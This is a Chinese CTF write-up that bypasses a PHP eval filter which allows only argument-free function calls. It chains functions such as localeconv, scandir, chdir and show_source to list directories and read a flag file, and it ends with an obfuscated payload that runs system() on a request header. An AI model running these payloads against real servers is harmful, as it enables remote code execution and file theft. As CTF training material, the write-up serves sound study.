




题目源码

```
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {  
  eval($_GET['code']);
} else {
  show_source(__FILE__);
}
```


对于一个get方法提交的参数进行判断,如果经过replace后的值为;执行get提交的参数

```
\w对字母数字下划线进行匹配,(?R)?是递归整个匹配模式
```

```
这段代码的核心就是只允许函数而不允许函数中的参数，就是说传进去的值是一个字符串接一个`()`，那么这个字符串就会被替换为空，如果替换后只剩下`;`，那么这段代码就会被`eval`执行。而且因为这个正则表达式是递归调用的，所以说像`a(b(c()));`第一次匹配后就还剩下`a(b());`，第二次匹配后就还剩`a();`，第三次匹配后就还剩`;`了，所以说这一串`a(b(c()))，`就会被`eval`执行
```

但相反，像`a(b('111'));`这种存在参数的就不行，因为无论正则匹配多少次它的参数总是存在的

a(b(c()));是可以使用的,但是a(b('a','b'));这种带参数的就不行了

正常的，`print_r(scandir('.'));`可以用来查看当前目录所有文件名

但是这里不能使用带参数的函数,那么我们就需要构造这个点

这里我在网上看到了几种方法

1. **localeconv()**

`localeconv()`返回一包含本地数字及货币格式信息的数组。而数组第一项就是`"."`（后续出现的`.`都用双引号包裹，方便识别）

扒了张图


而我们只需要这个函数的第一项，可以用current函数提取.(`current()`返回数组中的单元，默认取第一个值：)




这里这个点就打印出来了,我们再scandir读取一下



就读到了这个当前目录文件

除此之外pos也是current的别名

这里一样可以用print_r(scandir(pos(loacleconv)));

如果都被过滤还可以使用`reset()`，该函数返回数组第一个单元的值，如果数组为空则返回 `FALSE`

这样也可以得到localeconv()的第一个值"."

​	2.

chr(46)是字符"."

```
ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))返回46
```

 所以构造

chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))来得到chr(46)

print_r(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))));

获取绝对路径可用的有`getcwd()`和`realpath('.')`

所以我们还可以用`print_r(scandir(getcwd()));`输出当前文件夹所有文件名



很明显这个文件夹没有我们想要的flag

那就往上跳

print_r(scandir(dirname(getcwd())));


看到了一个和flag有关的文件夹

1. current() 取第一个
2. next() 取第二个
3. end() 取最后一个
4. current(array_reverse())倒数第一个

如果不是数组的最后一个或者倒数第二个呢？

我们可以使用`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`是随机返回一个数组

所以我们可以用：

```php
show_source(array_rand(array_flip(scandir(getcwd()))));
```

或者：

```php
show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

（可以自己结合前面总结的构造`"."`的方法切合实际过滤情况读取，后文就只列举简单的语句）

多刷新几次，就读到了

不过这里直接读取文件是会报错的，因为默认是在当前工作目录寻找并读取这个文件，而这个文件在上一层目录，所以要先改变当前工作目录

用chdir()函数改变当前工作目录

chdir(dirname(getcwd()));



这就读到了flag

读文件就多了，readfile(),show_source,file_get_contents(),highlight_file()


如果dirname被ban了那就需要构造`".."`来对上级目录进行读取

构造`".."`

`print_r(next(scandir(getcwd())));`：我们`scandir(getcwd())`出现的数组第二个就是`".."`，所以可以用`next()`获取

```php
print_r(scandir(next(scandir(getcwd()))));//也可查看上级目录文件
```

这中方式也能构造`".."`

```php
next(scandir(chr(ord(hebrevc(crypt(time()))))))
```

查看根目录

```php
print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));
```

if构造方法

```php
if(chdir(next(scandir(getcwd()))))show_source(array_rand(array_flip(scandir(getcwd()))));
```

查看根目录

```php
if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));
```

会受到权限限制，不一定成功

```
#执行shell
# system(next(getallheaders())): [~%8C%86%8C%8B%9A%92][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));

执行下一个header
```

